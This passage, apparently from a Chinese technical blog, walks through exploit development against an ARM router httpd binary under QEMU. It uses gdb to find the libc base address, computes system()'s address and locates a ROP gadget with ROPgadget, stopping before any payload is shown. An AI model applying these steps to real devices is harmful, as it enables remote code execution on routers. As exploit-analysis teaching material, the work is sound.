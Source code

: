![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKghkcCOes4XGyibkib8KmEuZ8biasFP4pwW6sd5vV4IGRfNsGscaxpdTibqA/640?wx_fmt=png&from=appmsg "")  
### lib基址计算  
```
sudo chroot ./ ./qemu -g 1234 ./bin/httpd  #qemu用户模式启动，-g开启gdbserver远程调试

gdb-multiarch  #gdb远程调试调用
target remote :1234  #连接需要调试的端口
file ./bin/httpd   #联动需要调试的文件
b puts  #puts函数设置断点
continue  #同c，启动
```  
###   
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgdHQItBxOf7IjXqAaNibhRjocwyGWpCBM14RT95jialJ4p7yOrIc8oaww/640?wx_fmt=png&from=appmsg "")  
  
由此可见，在内存映射里面的基址地址是0x3fdd1cd4  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgRSX93fACnyGFNPssTrntjydXLRCRrmONiaP2InliaH107Nfo3tHzrgMg/640?wx_fmt=png&from=appmsg "")  
  
使用ida打开libc.so.0，查看puts的相对偏移量为0x35CD4  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKg5rnVVpbAqwMLG5iaibibWibFlhBZpF9NxnrI8JialFDAcOTA2lxibpnTnMpg/640?wx_fmt=png&from=appmsg "")  
  
由此可知 lib基址为  
```
lib_base = 0x3fdd1cd4 - 0x35CD4 = 0x3FD9C000
```  
### system基址计算  
  
计算system函数偏移量  
```
readelf -s ./lib/libc.so.0 |grep system
system_addr = libc_base + 0x5A270
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgf5kxp2KAEUAMu4PJ4T5o6SpNGia2g1X5kIwrsVCtd8JMROicBqGbku4g/640?wx_fmt=png&from=appmsg "")  
### Gadget解析  
  
**跳转到R3的gadget1_addr**  
```
ROPgadget --binary ./lib/libc.so.0 --only "pop"| grep r3
0x00018298 : pop {r3, pc}
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/qXbmFE2wB53zJOPb8XmrzicaHC97PVLKgGHa4bkt0kM3cia2rqia0U0nNGHbDN58tJIa22aibvlRN9ficXfH1VIRJVw/640?wx_fmt=png&from=appmsg "")  
- **0x00018298 : pop {r3, pc}**  
- **功能**  
：从栈顶弹出两个值，分别存入   
r3  
 和   
pc  
。( 将   
system  
 地址存入   
r3  
)  
  